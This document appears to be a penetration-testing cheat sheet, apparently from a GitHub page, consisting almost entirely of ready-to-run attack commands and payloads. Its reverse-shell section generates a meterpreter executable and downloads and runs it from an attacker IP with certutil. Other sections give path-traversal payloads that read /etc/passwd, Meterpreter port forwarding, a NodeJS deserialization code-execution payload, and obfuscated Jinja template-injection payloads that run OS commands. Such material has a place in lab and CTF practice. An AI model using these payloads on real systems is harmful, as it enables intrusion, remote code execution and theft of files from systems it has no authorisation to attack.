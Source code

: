 > WINDOWS:
C:\boot.ini
https://hakluke.medium.com/sensitive-files-to-grab-in-windows-4b8f0a655f40
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt
https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt

## Windows Reverse Shell:
1- msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.252.17 lport=1234 -f exe > shell.exe
2- certutil.exe -urlcache -split -f http://10.9.252.17/shell.exe shell.exe & shell.exe
3- `Invoke-PowershellTcp.ps1`

## LFI FILTER BYPASS:
/?page=php://Filter/convert.base64-encode/resource=config
/index.php?file=../../../../../../../../etc/passwd
/index.php?file=../../../../../../../../etc/passwd%00
/index.php?file=../../../../../../../../etc/passwd/.
/index.php?file=....//....//....//....//....//....//....//....//etc//passwd

## SNMP (Port 161):
snmpwalk -c public -v2c -On <IP>

## Meterpreter
load powershell = Loads Powershell into meterpreter session
powershell_shell = Runs a powershell shell

## Meterpreter Portfwd
```bash
run auroroute -s "IP RANGE/SUBNET"
```
```bash
portfwd add -l <local port on the attacking machine (yours)> -p <victim port we want to access> -r <victim IP address>
```

## NodeJS Deserialization Attack
```
{"email":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c 1 10.14.12.230',function(error, stdout, stderr) { console.log(stdout) });\n }()"}
```

## Finding Possible LFI 
ffuf -c -r -u 'http://10.0.0.12/secret/evil.php?FUZZ=/etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs 0

## Jinja SSTI Injection
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)('id',stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)}}
```
```
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('ls')['read']()}}
```
